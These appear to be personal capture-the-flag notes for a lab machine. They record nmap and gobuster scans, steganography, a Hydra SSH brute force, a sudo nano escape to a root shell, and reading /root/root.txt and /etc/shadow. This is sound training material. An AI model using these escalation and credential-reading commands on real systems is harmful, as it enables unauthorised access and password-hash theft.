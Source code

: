 Webpage

- Source code --> clue that photo has steg hidden

Steg
- Photo reveals a password for user holt

NMAP
-ssh,ftp
- ftp server allows anonymous
- text file --> clue that jake has weak password

gobuster
gobuster -u 10.10.153.36 -w /home/aes18/Documents/CS/Tools/Kali/dirbuster/wordlists/directory-list-1.0.txt -x php,js,py,html,exe,zip,jpg,png,conf,db
- nothing

hydra 
- brute force ssh for user jake, password found quickly

foothold on  SSH

sudo -l --> usr/bin/less
/usr/bin/less /root/root.txt --> flag


cd /home 
cd jake 
cd holt --> flag 

su holt --> password from before

sudo -l
/usr/bin/nano 

GTFOBins --> nano --> root 
sudo nano
^R^X
reset; sh 1>&0 2>&0

cat /etc/shadow --> amy hash

cd /var/www/html --> see photo.jpg
python3 -m http.server --> download photo.jpg 
stegseek --> "Stillnoob was here" -- rabbit hole





